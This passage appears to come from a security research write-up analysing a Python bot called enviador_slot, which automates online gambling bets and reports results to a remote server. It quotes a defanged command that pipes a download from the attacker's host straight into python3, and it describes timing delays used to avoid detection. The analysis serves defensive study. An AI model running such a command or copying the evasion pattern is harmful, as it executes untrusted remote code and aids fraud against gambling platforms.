 ```
curl -s http://gcp.pagaelrescate[.]com:8080/testslot/enviador_slot | python3
```

The downloaded Python script automates interactions with an online gambling game through HTTP requests. The script includes functions that handle user authentication, betting, processing the outcomes, and sending data to a remote server.

Upon closer examination, we identified the following key components of the script:

**Global Variables:**

* `usuario`: Stores the user ID for managing the session.
* `apuesta`: Represents the bet amount.
* `ganancias`: Tracks the winnings and losses.
* `saldo_actual`: Holds the current account balance.

![enviador_slot Global Variables](/assets/images/betting-on-bots/image3.png "enviador_slot Global Variables")

#### Understanding the `obteneruid` Function

This function authenticates the user by sending a POST request with the necessary headers and JSON data to the remote server. If the user is not already set, it initializes a new session and retrieves the account balance. Upon successful authentication, it returns a session UUID, which is used for further interactions in the game.


![enviador_slot obteneruid Function](/assets/images/betting-on-bots/image27.png "enviador_slot obteneruid Function")

#### Understanding the `enviardatos` Function

This function sends game data or status updates back to `gcp.pagaelrescate[.]com`, logging the results or actions taken during gameplay. It uses a simple GET request to transmit this data to the remote server.

![enviador_slot enviardatos Function](/assets/images/betting-on-bots/image4.png "enviador_slot enviardatos Function")

#### Understanding the `hacerjugada` Function

The `hacerjugada` function simulates the betting process for a set number of rounds. It sends POST requests to place bets, updates the winnings or losses after each round, and calculates the overall results. If a bonus round is triggered, it calls `completarbono()` to handle any bonus game details. Between each betting round, the function enforces a 30-second delay to mimic natural gameplay and avoid detection.

![enviador_slot hacerjugada Function](/assets/images/betting-on-bots/image28.png "enviador_slot hacerjugada Function")

#### Understanding the `completarbono` Function

When a bonus round is triggered, this function completes the round by sending a request containing the session ID and round ID. Based on the result, it updates the account balance and logs the winnings or losses. Any change in the balance is sent back to the remote server using the `enviardatos()` function.

![enviador_slot completarbono Function](/assets/images/betting-on-bots/image6.png "enviador_slot completarbono Function")
